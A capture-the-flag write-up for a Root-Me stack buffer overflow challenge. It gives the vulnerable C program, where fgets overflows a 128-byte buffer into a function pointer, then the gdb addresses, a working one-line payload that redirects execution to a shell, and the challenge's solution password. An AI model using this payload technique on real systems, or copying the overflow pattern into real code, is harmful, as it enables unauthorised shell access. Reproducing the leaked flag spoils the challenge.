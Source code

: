 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy
- Statement
- Environment configuration <br>
```
  PIE	    Position Independent Executable	 ✘ 
  RelRO	    Read Only relocations	         ✘ 
  NX	    Non-Executable Stack	         ✔ 
  Heap exec Non-Executable Heap	                 ✔ 
  ASLR	    Address Space Layout Randomization	 ✘ 
  SF	    Source Fortification	         ✘ 
  SSP	    Stack-Smashing Protection            ✘
  SRC	    Source code access	                 ✔ 
```
## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function:
![image](https://user-images.githubusercontent.com/48288606/141277701-1e1e1c08-997a-47ba-be6a-1129505aee79.png)
 
- Poke around and find the **shell()**'s address at **0x08048516**:<br>
![image](https://user-images.githubusercontent.com/48288606/141276299-ec52a57d-f7cb-48de-a655-2862d97402c3.png)
- Let's try filling with 128 arbitrary bytes and the address of **sup()** function at **0x08048559**
```
app-systeme-ch15@challenge02:~$ python -c "print('a'*128+'\x59\x85\x04\x08')" | ./ch15
Hey dude ! Waaaaazzaaaaaaaa ?!
Segmentation fault
```
We can access to that address and carry out the code
### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

